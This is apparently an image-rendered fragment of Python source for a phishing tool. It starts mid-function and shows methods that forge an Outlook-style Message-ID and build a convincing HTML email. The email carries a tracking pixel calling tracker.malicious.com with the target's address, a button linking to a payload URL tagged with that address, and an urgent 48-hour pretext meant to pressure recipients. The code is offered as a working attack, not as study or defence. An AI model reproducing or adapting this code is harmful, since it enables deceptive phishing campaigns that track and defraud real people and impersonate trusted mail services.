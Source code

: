 ```python
        return email.split('@')[1]
    
    def _generate_message_id(self) -> str:
        """Generate realistic Message-ID header"""
        import uuid
        return f"<{uuid.uuid4()}@mail.protection.outlook.com>"
    
    def _craft_html_body(self, target: Target, payload_url: str, pretext: str) -> str:
        """
        Craft professional HTML email body with embedded tracking
        and malicious link
        """
        # Include tracking pixel
        tracking_pixel = f'<img src="https://tracker.malicious.com/pixel/{target.email}" width="1" height="1" />'
        
        html = f'''
        <html>
        <head>
            <style>
                body {{ font-family: Calibri, Arial, sans-serif; font-size: 11pt; color: #000000; }}
                .header {{ background-color: #0078d4; color: white; padding: 10px; }}
                .content {{ padding: 20px; line-height: 1.6; }}
                .button {{ background-color: #0078d4; color: white; padding: 10px 20px; 
                          text-decoration: none; border-radius: 5px; display: inline-block; }}
                .footer {{ font-size: 9pt; color: #666666; padding: 20px; border-top: 1px solid #cccccc; }}
            </style>
        </head>
        <body>
            <div class="header">
                <h2>{pretext}</h2>
            </div>
            <div class="content">
                <p>Dear {target.name},</p>
                
                <p>This message requires your immediate attention regarding {pretext.lower()}.</p>
                
                <p>To proceed, please review the details and take necessary action by clicking the button below:</p>
                
                <p style="text-align: center;">
                    <a href="{payload_url}?id={target.email}" class="button">Review and Take Action</a>
                </p>
                
                <p>This request is time-sensitive and must be completed within 48 hours to avoid service disruption.</p>
                
                <p>If you have questions, please contact your department administrator.</p>
                
                <p>Best regards,<br>
                {target.department} Department</p>
            </div>
            <div class="footer">
                <p>This is an automated message from the internal system. Please do not reply to this email.</p>
                <p>© {datetime.now().year} Organization Name. All rights reserved.</p>
            </div>
            {tracking_pixel}
        </body>
        </html>
```